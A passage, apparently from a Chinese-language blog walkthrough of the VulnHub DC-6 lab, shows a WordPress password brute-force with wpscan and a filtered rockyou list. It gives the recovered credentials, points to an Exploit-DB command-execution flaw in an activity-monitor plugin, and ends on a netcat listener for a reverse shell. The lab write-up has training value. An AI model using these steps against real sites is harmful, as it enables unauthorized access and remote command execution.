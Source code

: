 ![upload successful](https://lnng.top/images/pasted-237.png)

**upload successful**

  
将其保存到usename.txt文件  
然后有个提示妈耶鬼能想到  
提示地址:[https://www.vulnhub.com/entry/dc-6,315/](https://www.vulnhub.com/entry/dc-6,315/)  

![upload successful](https://lnng.top/images/pasted-238.png)

**upload successful**

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > password.txt
```

然后进行爆破

```
wpscan --url http://wordy/ -U username.txt -P password.txt
```

![upload successful](https://lnng.top/images/pasted-240.png)

**upload successful**

  
成功爆破出账号和密码

```
mark / helpdesk01
```

登录地址

```
http://wordy/wp-admin/
```

![upload successful](https://lnng.top/images/pasted-241.png)

**upload successful**

  
搜索漏洞:  
[https://www.exploit-db.com/exploits/45274](https://www.exploit-db.com/exploits/45274)

发现一个命令执行，漏洞地址  
[http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools](http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools)  

![upload successful](https://lnng.top/images/pasted-242.png)

**upload successful**

  
kali开启监听端口

```
netcat -l -p 4444
```
